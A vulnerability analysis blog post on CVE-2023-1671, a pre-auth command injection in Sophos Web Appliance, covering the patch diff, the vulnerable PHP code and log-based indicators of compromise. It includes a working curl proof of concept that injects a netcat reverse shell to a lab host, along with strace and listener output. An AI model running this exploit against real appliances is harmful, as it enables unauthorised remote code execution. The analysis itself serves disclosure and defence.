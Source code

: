 ```yaml
---
title: "Analysis of Pre-Auth RCE in Sophos Web Appliance CVE-2023-1671 - Blog - VulnCheck"
date: 2023-04-21T00:00:00.000Z
draft: false
type: posts
categories: 
- 
---
```

# Analysis of Pre-Auth RCE in Sophos Web Appliance CVE-2023-1671 - Blog - VulnCheck

<br/>

<br/>
On April 4, 2023, Sophos published a security advisory\[^1\] for their Web Appliance product. The advisory includes information on \[CVE-2023-1671\](https://nvd.nist.gov/vuln/detail/CVE-2023-1671), a critical vulnerability in versions prior to \[4.3.10.4\](https://wsa.sophos.com/docs/ws1000/ws1000/concepts/ReleaseNotes\_4.3.10.4.html):\\n\\n> A pre-auth command injection vulnerability in the warn-proceed handler allowing execution of arbitrary code was discovered and responsibly disclosed to Sophos by an external security researcher via the Sophos bug bounty program.\\n\\nGiven the \[initial access\](https://vulncheck.com/product/initial-access-intelligence) nature of the vulnerability, VulnCheck decided to investigate.\\n\\n# BLUF: Mass Exploitation Unlikely\\n\\nThe notes in the advisory detail the caveats quite well:\\n\\n> \* End of Life date for Sophos Web Appliance is on July 20, 2023\\n> \* Sophos recommends that Sophos Web Appliance is protected by a firewall and not accessible via the public Internet\\n> \* There is no action required for Sophos Web Appliance customers, as updates are installed automatically by default\\n\\nConsequently, exploitation at scale is highly unlikely.\\n\\n# Analyzing the Patch\\n\\n\`/opt/ws/bin/ftsblistpack\` is a Perl script that shells out to \`/opt/ws/bin/sblistpack\`, which is another Perl script. The patch changes the \[\`system\`\](https://perldoc.perl.org/functions/system) function's invocation such that the shell is no longer invoked:\\n\\n\`\`\`diff\\n--- unpatched/opt/ws/bin/ftsblistpack 2022-04-08 20:38:49.000000000 -0500\\n+++ patched/opt/ws/bin/ftsblistpack 2023-03-24 17:08:26.000000000 -0500\\n@@ -25,7 +25,7 @@\\n open my $flag, ">", "$flag\_file\_dir/$proceeded\_flag\_file" or die "Open file \[$flag\_file\_dir/$proceeded\_flag\_file\] failed" and $rc++;\\n close($flag);\\n\\n- $rc += system("$sblistpack '$uri' '$user' '$filetype' '$filein' '$fileout'");\\n+ $rc += system($sblistpack, $uri, $user, $filetype, $filein, $fileout);\\n }\\n\\n exit $rc;\\n\`\`\`\\n\\nNote the single-quoted arguments to the shell command in the unpatched code. This will be important later. Tracing from sink to source, we can see that \`/opt/ui/apache/htdocs/controllers/UsrBlocked.php\` shells out to \`ftsblistpack\` with user-supplied parameters:\\n\\n\`\`\`php\\n if($\_GET\['action'\] == 'continue') {\\n\\n if(strlen(trim($\_POST\['user'\])) > 0)\\n $user = base64\_decode($\_POST\['user\_encoded'\]);\\n else\\n $user = $\_POST\['client-ip'\];\\n if($user == '-') $user = $\_POST\['client-ip'\];\\n $user = escapeshellarg($user);\\n//snip\\n // use sblistpack to allow access\\n if($\_POST\['args\_reason'\] == 'filetypewarn') {\\n $key = $\_POST\['url'\];\\n $packer = '/opt/ws/bin/ftsblistpack';\\n $value = $\_POST\['filetype'\];\\n }\\n else {\\n $key = $\_POST\['domain'\];\\n $packer = '/opt/ws/bin/sblistpack';\\n $catParts = explode("|",$\_POST\['raw\_category\_id'\]);\\n $value = $catParts\[0\];\\n }\\n\\n $key = escapeshellarg($key);\\n $value = escapeshellarg($value);\\n $this->log->write("DEBUG","cmd = '$packer $key $user $value'");\\n $result = shell\_exec("$packer $key $user $value 2>&1");\\n\`\`\`\\n\\nNote that user-controlled input is still processed through PHP's \[\`escapeshellarg\`\](https://www.php.net/manual/en/function.escapeshellarg.php) function, which will escape \_and add\_ single quotes to a shell argument. You may be able to see where this is going.\\n\\n# Developing an RCE PoC\\n\\nExploitation is relatively straightforward. \`UsrBlocked.php\` is routed through \`/index.php?c=blocked\`, and the required \`GET\` and \`POST\` parameters are supplied thereafter. Since the \`user\_encoded\` parameter is Base64-encoded, it's perfect for our command injection. No escaping or other encoding is necessary! The full \`curl\` command to RCE is demonstrated below:\\n\\n::shell-prompt\\n\`\`\`\\nwvu@kharak:~$ curl -k --trace-ascii % "https://192.168.56.108/index.php?c=blocked&action=continue" -d "args\_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user\_encoded=$(echo -n "';nc -e /bin/sh 192.168.56.1 4444 #" | base64)"\\n#snip\\n=> Send header, 184 bytes (0xb8)\\n0000: POST /index.php?c=blocked&action=continue HTTP/1.1\\n0034: Host: 192.168.56.108\\n004a: User-Agent: curl/7.88.1\\n0063: Accept: \*/\*\\n0070: Content-Length: 120\\n0085: Content-Type: application/x-www-form-urlencoded\\n00b6:\\n=> Send data, 120 bytes (0x78)\\n0000: args\_reason=filetypewarn&url=16625&filetype=5831&user=4525&user\_\\n0040: encoded=JztuYyAtZSAvYmluL3NoIDE5Mi4xNjguNTYuMSA0NDQ0ICM=\\n\`\`\`\\n::\\n\\nHow \_exactly\_ the command injection works is perhaps best illustrated by the following \`strace\` output:\\n\\n\`\`\`c\\n\[pid 22283\] execve("/bin/sh", \["sh", "-c", "/opt/ws/bin/ftsblistpack '16625' ''\\\\'';nc -e /bin/sh 192.168.56.1 4444 #' '5831' 2>&1"\], \[/\* 16 vars \*/\]) = 0\\n\[pid 22284\] execve("/opt/ws/bin/ftsblistpack", \["/opt/ws/bin/ftsblistpack", "16625", "';nc -e /bin/sh 192.168.56.1 4444 #", "5831"\], \[/\* 16 vars \*/\]) = 0\\n\[pid 22285\] execve("/bin/sh", \["sh", "-c", "/opt/ws/bin/sblistpack '16625' '';nc -e /bin/sh 192.168.56.1 4444 #' '5831' '/persist/wsa/ftsblist.in' '/persist/wsa/ftsblist.kvlist'"\], \[/\* 16 vars \*/\]) = 0\\n\[pid 22288\] execve("/opt/ws/bin/sblistpack", \["/opt/ws/bin/sblistpack", "16625", ""\], \[/\* 16 vars \*/\]) = 0\\n\[pid 22285\] --- SIGCHLD (Child exited) @ 0 (0) ---\\n\[pid 22299\] execve("/bin/nc", \["nc", "-e", "/bin/sh", "192.168.56.1", "4444"\], \[/\* 16 vars \*/\]) = 0\\n\[pid 22299\] execve("/bin/sh", \["sh"\], \[/\* 16 vars \*/\]) = 0\\n\`\`\`\\n\\nWhen \`';nc -e /bin/sh 192.168.56.1 4444 #\` is injected into \`ftsblistpack\`, the input is wrapped in single quotes, resulting in the "sanitized" input \`'';nc -e /bin/sh 192.168.56.1 4444 #'\`, which will close the opening quote, execute a \`netcat\` reverse shell, and comment out the rest of the command line. If you had a listener set up, you'd catch the shell:\\n\\n::shell-prompt\\n\`\`\`\\nwvu@kharak:~$ rlwrap -rS '$ ' -nH /dev/null ncat -lkv 4444\\nNcat: Version 7.93 ( https://nmap.org/ncat )\\nNcat: Listening on :::4444\\nNcat: Listening on 0.0.0.0:4444\\n$ Ncat: Connection from 192.168.56.108.\\nNcat: Connection from 192.168.56.108:56426.\\n$ id\\nuid=1000(spiderman) gid=1000(spiderman) groups=1000(spiderman),16(cron),44(tproxyd),45(wdx)\\n$ uname -a\\nLinux foo 3.2.89 #1 SMP Tue Mar 29 00:03:09 UTC 2022 i686 GNU/Linux\\n$\\n\`\`\`\\n::\\n\\n\_Insert Spider-Man Pointing meme.\_\\n\\n# Hunting for IOCs\\n\\nA single line is appended to the \`/log/ui\_access\_log\` file once the HTTP request returns a response:\\n\\n\`\`\`\\n192.168.56.1 - - \[19/Apr/2023:19:46:21 +0000\] "POST /index.php?c=blocked&action=continue HTTP/1.1" 302 - "-" "curl/7.88.1"\\n\`\`\`\\n\\nIt isn't much, but it's something to look for when hunting for exploitation. Note that writing the log entry may block on command execution. Additionally, the previous \`strace\` output can be used for process detections.\\n\\n# References\\n\\n\[^1\]: https://www.sophos.com/en-us/security-advisories/sophos-sa-20230404-swa-rce\\n

#### [Source](https://vulncheck.com/blog/cve-2023-1671-analysis)

<br/>
---
